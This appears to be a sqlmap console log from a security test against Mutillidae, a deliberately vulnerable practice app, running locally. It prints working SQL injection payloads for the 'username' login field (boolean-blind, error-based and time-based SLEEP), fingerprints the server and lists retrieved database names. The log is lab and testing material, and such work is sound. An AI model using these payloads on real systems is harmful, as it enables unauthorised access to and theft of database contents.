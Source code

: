 ```
[14:31:48] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[14:31:51] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 375 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: redirectPage=&username=-9060' OR 2716=2716#&password=&login-php-submit-button=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: redirectPage=&username=' OR (SELECT 3138 FROM(SELECT COUNT(*),CONCAT(0x716a766a71,(SELECT (ELT(3138=3138,1))),0x71626a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Kttc&password=&login-php-submit-button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: redirectPage=&username=' AND (SELECT 6344 FROM (SELECT(SLEEP(5)))sgDH)-- DlCq&password=&login-php-submit-button=Login
---
[14:31:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.6, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:31:51] [INFO] fetching database names
[14:31:51] [INFO] starting 3 threads
[14:31:51] [INFO] retrieved: 'information_schema'
[14:31:51] [INFO] retrieved: 'sys'
[14:31:51] [INFO] retrieved: 'mysql'
[14:31:52] [INFO] retrieved: 'performance_schema'
[14:31:52] [INFO] retrieved: 'mutillidae'
available databases [5]:
[*] information_schema
[*] mutillidae
[*] mysql
[*] performance_schema
[*] sys

[14:31:52] [INFO] fetched data logged to text files under 'D:\SecSci_RnD\BurpExtender\SecSci-SQLMap\Results\127.0.0.1_sqlmap_20250524143054279000\127.0.0.1'

[*] ending @ 14:31:52 /2025-05-24/
```